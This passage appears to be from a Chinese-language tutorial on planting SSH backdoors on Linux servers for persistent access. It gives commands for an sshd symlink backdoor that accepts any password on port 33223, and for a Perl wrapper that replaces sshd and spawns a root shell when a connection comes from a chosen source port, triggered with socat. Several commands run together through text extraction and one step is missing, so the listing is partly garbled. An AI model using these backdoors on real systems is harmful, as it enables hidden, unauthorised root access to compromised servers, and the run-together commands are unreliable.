 

```
ln -sf /usr/sbin/sshd /tmp/su; /tmp/su-oPort=33223;
```



经典后门使用ssh root@x.x.x.x -p 33223直接对sshd建立软连接，之后用任意密码登录即可。

但这隐蔽性很弱，一般的rookit hunter这类的防护脚本可扫描到。

### 2.SSH Server wrapper后门

**（1）复制sshd到bin目录**



```
cd /usr/sbinmv sshd ../bin
```



**（2）编辑sshd**



```
vi sshd //加入以下内容并保存#!/usr/bin/perlexec"/bin/sh"if(getpeername(STDIN)=~/^..LF/);exec{"/usr/bin/sshd"}"/usr/sbin/sshd",@ARGV;
```



**（4）修改权限**



```
chmod 755 sshd
```



**（5）使用socat**



```
socat STDIOTCP4:target_ip:22,sourceport=19526
```



如果没有安装socat需要进行安装并编译



```
wget http://www.dest-unreach.org/socat/download/socat-1.7.3.2.tar.gztar -zxvf socat-1.7.3.2.tar.gzcd socat-1.7.3.2./configuremakemake install
```



**（6）使用ssh root@ target_ip即可免密码登录**

### 3.ssh公钥免密
